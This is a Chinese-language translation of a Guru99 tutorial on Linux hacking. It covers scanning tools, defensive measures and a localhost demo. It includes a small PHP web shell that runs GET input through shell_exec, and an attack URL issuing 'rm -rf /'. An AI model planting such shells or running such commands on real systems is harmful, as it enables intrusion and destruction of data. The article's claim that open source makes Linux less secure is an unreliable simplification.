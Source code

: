 # 黑客 Linux 操作系统：完整的 Ubuntu 示例教程

> 原文： [https://www.guru99.com/hacking-linux-systems.html](https://www.guru99.com/hacking-linux-systems.html)

Linux 是使用最广泛的服务器操作系统，尤其是对于 Web 服务器。 它是开源的； 这意味着任何人都可以访问源代码。 **与其他操作系统相比，它的安全性较低，因为攻击者可以研究源代码来查找漏洞**。 [Linux](/unix-linux-tutorial.html) 黑客活动是利用这些漏洞来获得对系统的未经授权的访问。

在本文中，我们将向您介绍 Linux 是什么，Linux 的安全漏洞以及可以采取的对策。

## 本教程涵盖的主题

*   [关于 Linux](#1) 的快速说明
*   [Linux 黑客工具](#2)
*   [如何防止 Linux 骇客](#3)
*   [黑客活动：使用 PHP 入侵 Linux 系统](#4)

## 在 Linux 上的快速说明

**Linux 是开源操作系统**。 有许多基于 Linux 的操作系统发行版，例如 Redhat，Fedora 和 Ubuntu 等。与其他操作系统不同，Linux 在安全性方面不太安全。 这是因为源代码是免费提供的，因此与非开放源代码的其他操作系统相比，很容易研究它的漏洞并加以利用。 Linux 可以用作服务器，台式机，平板电脑或移动设备操作系统。

可以使用 GUI 或命令来操作 Linux 程序。 与使用 GUI 相比，这些命令更加有效。 因此，有助于了解 Linux 基本命令。

有关如何开始使用 Linux 的信息，请参考这些教程 [https://www.guru99.com/unix-linux-tutorial.html](/unix-linux-tutorial.html) 。

## Linux 黑客工具

*   **Nessus** –该工具可用于扫描配置设置，补丁和网络等。可以在 [https://www.tenable.com/products/nessus](https://www.tenable.com/products/nessus) 中找到它。
*   **NMap。** 此工具可用于监视服务器上正在运行的主机及其使用的服务。 它也可以用于扫描端口。 可以在 [https://nmap.org/](https://nmap.org/) 中找到
*   **SARA –** SARA 是 Security Auditor 研究助理的缩写。 顾名思义，此工具可用于针对诸如 [SQL](/sql.html) 注入，XSS 等威胁来审核网络。可以在 [http://www-arc.com/sara/sara 上找到该工具。 .html](http://www-arc.com/sara/sara.html)

上面的列表并不详尽； 它使您了解可用于入侵 Linux 系统的工具。

## 如何防止 Linux 黑客入侵

Linux Hacking 利用了操作系统中的漏洞。 组织可以采用以下策略来保护自己免受此类攻击。

*   **修补程序管理** –修补程序修复了攻击者用来破坏系统的错误。 良好的补丁程序管理策略将确保您不断将相关补丁程序应用到系统中。
*   **正确的操作系统配置** –其他漏洞利用服务器配置中的弱点。 不活动的用户名和守护程序应被禁用。 应更改默认设置，例如应用程序的通用密码，默认用户名和某些端口号。
*   **入侵检测系统** –此类工具可用于检测对系统的未授权访问。 一些工具具有检测和阻止此类攻击的能力。

## 黑客活动：使用 PHP 入侵 Ubuntu Linux 系统

在这种实际情况下，我们将为您提供有关如何使用 [PHP](/php-tutorials.html) 危害 Linux 的基本信息。 我们不会针对任何受害者。 如果要尝试，可以在本地计算机上安装 LAMPP。

PHP 带有两个可用于执行 Linux 命令的函数。 它具有 exec（）和 shell_exec（）函数。 函数 exec（）返回命令输出的最后一行，而 shell_exec（）以字符串形式返回命令的整个结果。

为了演示起见，假设攻击者管理者将以下文件上传到网络服务器上。

```
<?php

$cmd = isset($_GET['cmd']) ? $_GET['cmd'] : 'ls -l';

echo "executing shell command:-> $cmd</br>";

$output = shell_exec($cmd);

echo "<pre>$output</pre>";

?>
```

**此处，**

上面的脚本从名为 cmd 的 GET 变量获取命令。 使用 shell_exec（）执行命令，结果在浏览器中返回。

可以使用以下 URL 来利用以上代码

http：//localhost/cp/konsole.php？cmd = ls％20-l

**HERE,**

*   “…konsole.php？cmd = ls％20-l” **将值 ls –l 分配给变量 cmd** 。

针对服务器执行的命令将是

```
shell_exec('ls -l') ;
```

在 Web 服务器上执行上述代码可获得与以下类似的结果。

![Hacking Linux Systems](img/4d8547b4b5bcf285e270b08f419ee35f.png "Hacking Linux Systems")

上面的命令仅显示当前目录中的文件和权限

假设攻击者传递了以下命令

```
rm -rf /
```

**HERE,**

*   “ rm”删除文件
*   “ rf”使 rm 命令以递归模式运行。 删除所有文件夹和文件
*   “ /”指示命令开始从根目录删除文件

攻击网址看起来像这样

http：//localhost/cp/konsole.php？cmd = rm％20-rf％20 /

## 摘要

*   Linux 是用于服务器，台式机，平板电脑和移动设备的流行操作系统。
*   Linux 是开源的，任何人都可以获取源代码。 这样可以轻松发现漏洞。
*   基本命令和网络命令对 Linux 黑客来说非常重要。
*   漏洞是可以利用来破坏系统的漏洞。
*   良好的安全性可以帮助保护系统免受攻击者的破坏。